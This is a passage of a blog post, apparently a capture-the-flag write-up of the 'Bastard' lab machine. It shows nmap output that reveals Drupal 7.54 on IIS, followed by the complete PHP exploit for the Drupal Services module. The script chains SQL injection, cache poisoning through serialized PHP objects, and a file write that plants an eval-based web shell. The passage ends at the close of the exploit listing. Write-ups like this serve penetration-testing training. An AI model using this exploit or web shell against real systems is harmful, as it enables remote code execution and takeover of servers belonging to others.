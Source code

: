 ```yaml
---
layout: post
title: Bastard
categories:
  - Writeup
---
```


<br>OS Windows
<br>IP: 10.10.10.9
<br>Machine Author: ch4p

**Nmap**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nmap -sS -sV -O 10.10.10.9

<br>Starting Nmap 7.50 ( https://nmap.org ) at 2017-12-20 21:59 EST
<br>Nmap scan report for 10.10.10.9
<br>Host is up (0.15s latency).
<br>Not shown: 997 filtered ports
<br>PORT      STATE SERVICE VERSION
<br><font color="BB69EC">80/tcp</font>    open  http    Microsoft IIS httpd 7.5
<br>|_http-generator: Drupal 7 (http://drupal.org)
<br>| http-methods: 
<br>|_  Potentially risky methods: TRACE
<br>| http-robots.txt: 36 disallowed entries (15 shown)
<br>| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
<br>| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
<br>| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
<br>|_/LICENSE.txt /MAINTAINERS.txt
<br>|_http-server-header: Microsoft-IIS/7.5
<br>|_http-title: Welcome to 10.10.10.9 | 10.10.10.9
<br><font color="BB69EC">135/tcp</font>   open  msrpc   Microsoft Windows RPC
<br><font color="BB69EC">49154/tcp</font> open  msrpc   Microsoft Windows RPC
<br>Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
<br>Device type: general purpose|phone|specialized
<br>Running (JUST GUESSING): Microsoft Windows 8|Phone|2008|8.1|7|Vista|2012 (92%)
<br>OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8.1 <br>cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 <br>cpe:/o:microsoft:windows_server_2012
<br>Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows Server 2008 <br>R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft <br>Windows 7 (91%), Microsoft Windows 7 Professional or Windows 8 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (91%), <br>Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 <br>SP1, or Windows 7 (91%)
<br>No exact OS matches for host (test conditions non-ideal).
<br>Network Distance: 2 hops
<br>Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

<br>TRACEROUTE (using port 80/tcp)
<br>HOP RTT       ADDRESS
<br>1   139.01 ms 10.10.14.1
<br>2   139.18 ms 10.10.10.9

<br>OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
<br>Nmap done: 1 IP address (1 host up) scanned in 86.43 seconds

<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#</p>
</div>
</font>

<br>**Web**:- Drupal Service is running
![Drupal](https://teckk2.github.io/assets/images/Bastard/1-Bastard.JPG)
<br>and by checking /CHANGELOG.txt which we found in the nmap scan of robots.txt, we can see the version installed of drupal is 7.54
![version](https://teckk2.github.io/assets/images/Bastard/2-Bastard.JPG)
<br>For which there is a public exploit available [Drupal-Services-Module-rce](https://www.ambionics.io/blog/drupal-services-module-rce)
<br>Now download the exploit from the blog and edit the $url and $endpoint_path
![edit](https://teckk2.github.io/assets/images/Bastard/3-Bastard.JPG)
**Exploit**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># cat exploit.php 
<br>#!/usr/bin/php
<br><?php
<br># Drupal Services Module Remote Code Execution Exploit
<br># https://www.ambionics.io/blog/drupal-services-module-rce
<br># cf
<br>#
<br># Three stages:
<br># 1. Use the SQL Injection to get the contents of the cache for current endpoint
<br>#    along with admin credentials and hash
<br># 2. Alter the cache to allow us to write a file and do so
<br># 3. Restore the cache
<br># 

<br># Initialization

<br>error_reporting(E_ALL);

<br>define('QID', 'anything');
<br>define('TYPE_PHP', 'application/vnd.php.serialized');
<br>define('TYPE_JSON', 'application/json');
<br>define('CONTROLLER', 'user');
<br>define('ACTION', 'login');

<br>$url = <font color="53E100">'http://10.10.10.9'</font>;
<br>$endpoint_path = <font color="53E100">'/rest'</font>;
<br>$endpoint = 'rest_endpoint';

<br>$file = [
<br>    'filename' => 'dixuSOspsOUU.php',
<br>    'data' => '<?php eval(file_get_contents(\'php://input\')); ?>'
<br>];

<br>$browser = new Browser($url . $endpoint_path);


<br># Stage 1: SQL Injection

<br>class DatabaseCondition
<br>{
<br>    protected $conditions = [
<br>        "#conjunction" => "AND"
<br>    ];
<br>    protected $arguments = [];
<br>    protected $changed = false;
<br>    protected $queryPlaceholderIdentifier = null;
<br>    public $stringVersion = null;

<br>    public function __construct($stringVersion=null)
<br>    {
<br>        $this->stringVersion = $stringVersion;

<br>        if(!isset($stringVersion))
<br>        {
<br>            $this->changed = true;
<br>            $this->stringVersion = null;
<br>        }
<br>    }
<br>}

<br>class SelectQueryExtender {
<br>    # Contains a DatabaseCondition object instead of a SelectQueryInterface
<br>    # so that $query->compile() exists and (string) $query is controlled by us.
<br>    protected $query = null;

<br>    protected $uniqueIdentifier = QID;
<br>    protected $connection;
<br>    protected $placeholder = 0;

<br>    public function __construct($sql)
<br>    {
<br>        $this->query = new DatabaseCondition($sql);
<br>    }
<br>}

<br>$cache_id = "services:$endpoint:resources";
<br>$sql_cache = "SELECT data FROM {cache} WHERE cid='$cache_id'";
<br>$password_hash = '$S$D2NH.6IZNb1vbZEV1F0S9fqIz3A0Y1xueKznB8vWrMsnV/nrTpnd';

<br># Take first user but with a custom password
<br># Store the original password hash in signature_format, and endpoint cache
<br># in signature
<br>$query = 
<br>    "0x3a) UNION SELECT ux.uid AS uid, " .
<br>    "ux.name AS name, '$password_hash' AS pass, " .
<br>    "ux.mail AS mail, ux.theme AS theme, ($sql_cache) AS signature, " .
<br>    "ux.pass AS signature_format, ux.created AS created, " .
<br>    "ux.access AS access, ux.login AS login, ux.status AS status, " .
<br>    "ux.timezone AS timezone, ux.language AS language, ux.picture " .
<br>    "AS picture, ux.init AS init, ux.data AS data FROM {users} ux " .
<br>    "WHERE ux.uid<>(0"
<br>;

<br>$query = new SelectQueryExtender($query);
<br>$data = ['username' => $query, 'password' => 'ouvreboite'];
<br>$data = serialize($data);

<br>$json = $browser->post(TYPE_PHP, $data);

<br># If this worked, the rest will as well
<br>if(!isset($json->user))
<br>{
<br>    print_r($json);
<br>    e("Failed to login with fake password");
<br>}

<br># Store session and user data

<br>$session = [
<br>    'session_name' => $json->session_name,
<br>    'session_id' => $json->sessid,
<br>    'token' => $json->token
<br>];
<br>store('session', $session);

<br>$user = $json->user;

<br># Unserialize the cached value
<br># Note: Drupal websites admins, this is your opportunity to fight back :)
<br>$cache = unserialize($user->signature);

<br># Reassign fields
<br>$user->pass = $user->signature_format;
<br>unset($user->signature);
<br>unset($user->signature_format);

<br>store('user', $user);

<br>if($cache === false)
<br>{
<br>    e("Unable to obtains endpoint's cache value");
<br>}

<br>x("Cache contains " . sizeof($cache) . " entries");

<br># Stage 2: Change endpoint's behaviour to write a shell

<br>class DrupalCacheArray
<br>{
<br>    # Cache ID
<br>    protected $cid = "services:endpoint_name:resources";
<br>    # Name of the table to fetch data from.
<br>    # Can also be used to SQL inject in DrupalDatabaseCache::getMultiple()
<br>    protected $bin = 'cache';
<br>    protected $keysToPersist = [];
<br>    protected $storage = [];

<br>    function __construct($storage, $endpoint, $controller, $action) {
<br>        $settings = [
<br>            'services' => ['resource_api_version' => '1.0']
<br>        ];
<br>        $this->cid = "services:$endpoint:resources";

<br>        # If no endpoint is given, just reset the original values
<br>        if(isset($controller))
<br>        {
<br>            $storage[$controller]['actions'][$action] = [
<br>                'help' => 'Writes data to a file',
<br>                # Callback function
<br>                'callback' => 'file_put_contents',
<br>                # This one does not accept "true" as Drupal does,
<br>                # so we just go for a tautology
<br>                'access callback' => 'is_string',
<br>                'access arguments' => ['a string'],
<br>                # Arguments given through POST
<br>                'args' => [
<br>                    0 => [
<br>                        'name' => 'filename',
<br>                        'type' => 'string',
<br>                        'description' => 'Path to the file',
<br>                        'source' => ['data' => 'filename'],
<br>                        'optional' => false,
<br>                    ],
<br>                    1 => [
<br>                        'name' => 'data',
<br>                        'type' => 'string',
<br>                        'description' => 'The data to write',
<br>                        'source' => ['data' => 'data'],
<br>                        'optional' => false,
<br>                    ],
<br>                ],
<br>                'file' => [
<br>                    'type' => 'inc',
<br>                    'module' => 'services',
<br>                    'name' => 'resources/user_resource',
<br>                ],
<br>                'endpoint' => $settings
<br>            ];
<br>            $storage[$controller]['endpoint']['actions'] += [
<br>                $action => [
<br>                    'enabled' => 1,
<br>                    'settings' => $settings
<br>                ]
<br>            ];
<br>        }
<br>
<br>        $this->storage = $storage;
<br>        $this->keysToPersist = array_fill_keys(array_keys($storage), true);
<br>    }
<br>}

<br>class ThemeRegistry Extends DrupalCacheArray {
<br>    protected $persistable;
<br>    protected $completeRegistry;
<br>}

<br>cache_poison($endpoint, $cache);

<br># Write the file
<br>$json = (array) $browser->post(TYPE_JSON, json_encode($file));


<br># Stage 3: Restore endpoint's behaviour

<br>cache_reset($endpoint, $cache);

<br>if(!(isset($json[0]) && $json[0] === strlen($file['data'])))
<br>{
<br>    e("Failed to write file.");
<br>}

<br>$file_url = $url . '/' . $file['filename'];
<br>x("File written: $file_url");


<br># HTTP Browser

<br>class Browser
<br>{
<br>    private $url;
<br>    private $controller = CONTROLLER;
<br>    private $action = ACTION;

<br>    function __construct($url)
<br>    {
<br>        $this->url = $url;
<br>    }

<br>    function post($type, $data)
<br>    {
<br>        $headers = [
<br>            "Accept: " . TYPE_JSON,
<br>            "Content-Type: $type",
<br>            "Content-Length: " . strlen($data)
<br>        ];
<br>        $url = $this->url . '/' . $this->controller . '/' . $this->action;

<br>        $s = curl_init(); 
<br>        curl_setopt($s, CURLOPT_URL, $url);
<br>        curl_setopt($s, CURLOPT_HTTPHEADER, $headers);
<br>        curl_setopt($s, CURLOPT_POST, 1);
<br>        curl_setopt($s, CURLOPT_POSTFIELDS, $data);
<br>        curl_setopt($s, CURLOPT_RETURNTRANSFER, true);
<br>        curl_setopt($s, CURLOPT_SSL_VERIFYHOST, 0);
<br>        curl_setopt($s, CURLOPT_SSL_VERIFYPEER, 0);
<br>        $output = curl_exec($s);
<br>        $error = curl_error($s);
<br>        curl_close($s);

<br>        if($error)
<br>        {
<br>            e("cURL: $error");
<br>        }

<br>        return json_decode($output);
<br>    }
<br>}

<br># Cache

<br>function cache_poison($endpoint, $cache)
<br>{
<br>    $tr = new ThemeRegistry($cache, $endpoint, CONTROLLER, ACTION);
<br>    cache_edit($tr);
<br>}

<br>function cache_reset($endpoint, $cache)
<br>{
<br>    $tr = new ThemeRegistry($cache, $endpoint, null, null);
<br>    cache_edit($tr);
<br>}

<br>function cache_edit($tr)
<br>{
<br>    global $browser;
<br>    $data = serialize([$tr]);
<br>    $json = $browser->post(TYPE_PHP, $data);
<br>}

<br># Utils

<br>function x($message)
<br>{
<br>    print("$message\n");
<br>}

<br>function e($message)
<br>{
<br>    x($message);
<br>    exit(1);
<br>}

<br>function store($name, $data)
<br>{
<br>    $filename = "$name.json";
<br>    file_put_contents($filename, json_encode($data, JSON_PRETTY_PRINT));
<br>    x("Stored $name information in $filename");
<br>}
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#</p>
